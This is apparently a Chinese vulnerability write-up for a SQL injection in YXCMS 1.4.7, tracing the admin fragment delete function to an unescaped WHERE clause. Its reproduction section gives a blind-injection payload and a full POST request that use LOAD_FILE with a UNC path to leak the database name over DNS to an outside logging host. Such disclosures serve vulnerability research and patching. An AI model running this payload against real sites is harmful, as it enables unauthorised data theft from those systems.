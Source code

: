 YXCMS 1.4.7SQL注入
==================

一、漏洞简介
------------

二、漏洞影响
------------

1.4.7

三、复现过程
------------

### 漏洞分析

查看漏洞文件protected/apps/admin/controller/fragmentController.php的第63行

    public function del()
    {
        if(!$this->isPost()){
            $id=intval($_GET['id']);
            if(empty($id)) $this->error('您没有选择~');
            if(model('fragment')->delete("id='$id'"))
            echo 1;
            else echo '删除失败~';
        }else{
            if(empty($_POST['delid'])) $this->error('您没有选择~');
            $delid=implode(',',$_POST['delid']);
            if(model('fragment')->delete('id in ('.$delid.')'))
            $this->success('删除成功',url('fragment/index'));
        }
    }

我们跟if(model(\'fragment\')-\>delete(\"id=\'\$id\'\")),它会先到protected/core.php文件里面的model

    function model($model){
        static $objArray = array();
        $className = $model . 'Model';
        if( !is_object($objArray[$className]) ){
            if( !class_exists($className) ) {
                throw new Exception(config('_APP_NAME'). '/' . $className . '.php 模型类不存在');
            }
            $objArray[$className] = new $className();
        }
        return $objArray[$className];
    }

然后到protected/apps/admin/model/fragmentModel.php

    <?php
    class fragmentModel extends baseModel{
        protected $table = 'fragment';
    }

继续protected/base/model/baseModel.php

    <?php
    class baseModel extends model{
         protected $prefix='';
         public function __construct( $database= 'DB',$force = false ){
            parent::__construct();
            $this->prefix=config('DB_PREFIX');
        }
    }

再来到最底层的数据库操作类protected/base/model/model.php的第45行

    public function delete($condition){
    return $this->model->table($this->table, $this->ignoreTablePrefix)->where($condition)->delete();
        }

这个delete()是从哪里来的，我们来看第十三行的代码,创建了一个对象cpModel

    static public function connect($config, $force=false){
            static $model = NULL;
            if( $force==true || empty($model) ){
                $model = new cpModel($config);
            }
            return $model;
        }

漏洞文件在protected/include/core/cpModel.class.php,

    public function delete() {
            $table = $this->options['table'];   //当前表
            $where = $this->_parseCondition();  //条件
            if ( empty($where) ) return false; //删除条件为空时，则返回false，避免数据不小心被全部删除

            $this->sql = "DELETE FROM $table $where";
            $query = $this->db->execute($this->sql);
            return $this->db->affectedRows();
        }

这里用到了一个方法\_parseCondition()

    private function _parseCondition() {
            $condition = $this->db->parseCondition($this->options);
            $this->options['where'] = '';
            $this->options['group'] = '';
            $this->options['having'] = '';
            $this->options['order'] = '';
            $this->options['limit'] = '';
            $this->options['field'] = '*';      
            return $condition;      
        }
    }

这个函数是在protected/include/core/db/cpMysql.class.php的128行

    public function parseCondition($options) {
            $condition = "";
            if(!empty($options['where'])) {
                $condition = " WHERE ";
                if(is_string($options['where'])) {
                    $condition .= $options['where'];
                } else if(is_array($options['where'])) {
                        foreach($options['where'] as $key => $value) {
                             $condition .= " `$key` = " . $this->escape($value) . " AND ";
                        }
                        $condition = substr($condition, 0,-4);  
                } else {
                    $condition = "";
                }
            }

            if( !empty($options['group']) && is_string($options['group']) ) {
                $condition .= " GROUP BY " . $options['group'];
            }
            if( !empty($options['having']) && is_string($options['having']) ) {
                $condition .= " HAVING " .  $options['having'];
            }
            if( !empty($options['order']) && is_string($options['order']) ) {
                $condition .= " ORDER BY " .  $options['order'];
            }
            if( !empty($options['limit']) && (is_string($options['limit']) || is_numeric($options['limit'])) ) {
                $condition .= " LIMIT " .  $options['limit'];
            }
            if( empty($condition) ) return "";
            return $condition;
        }

里面有一个行数来过滤escape,我们找到74行的这个函数定义

    public function escape($value) {
            if( isset($this->_readLink) ) {
                $link = $this->_readLink;
            } elseif( isset($this->_writeLink) ) {
                $link = $this->_writeLink;
            } else {
                $link = $this->_getReadLink();
            }

            if( is_array($value) ) { 
               return array_map(array($this, 'escape'), $value);
            } else {
               if( get_magic_quotes_gpc() ) {
                   $value = stripslashes($value);
               } 
                return  "'" . mysql_real_escape_string($value, $link) . "'";
            }
        }

不过这个函数有一句is\_array如果是数组才会执行下面的过滤，如果不是的话就正常执行下去,没有任何sql的过滤就造成了注入漏洞。

### 复现

这个盲注可以用[http://ceye.io和python脚本跑](http://ceye.io和python脚本跑)

    http://0-sec.org/index.php?r=admin/fragment/index

payload:

    1 and if((select load_file(concat('\\\\',(select database()),'.xxxx.ceye.io\\abc'))),1,1))-- 

    - 点击删除

post包

    POST /index.php?r=admin/fragment/del HTTP/1.1
    Host: 0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 188
    Referer: [url]http://127.0.0.1/index.php?r=admin/fragment/index[/url]
    Cookie: PHPSESSID=bbei6n32cuevaf1lbi0n79rdj2; 
    Connection: close
    Upgrade-Insecure-Requests: 1

    delid%5B%5D=select LOAD_FILE((CONCAT('\\\\',(SELECT DATABASE()),'.8571e594.2m1.pw\\abc')))&__hash__=529fbedab8a7b8a3f3f5a0f394f51cf2_08ebfXTKPoKd0tX4iq+aFMwhq5QkkRGC/NfUu/Ny83+UmU8u0MoCIj8

![](./resource/YXCMS1.4.7SQL注入/media/rId27.png)

然后用burp截获数据，修改内容加上我们的payload，用原文的payload后面+会报错

![](./resource/YXCMS1.4.7SQL注入/media/rId28.png)

然后进入<http://ceye.io/records/dns> 查看我们的数据

![](./resource/YXCMS1.4.7SQL注入/media/rId30.shtml)
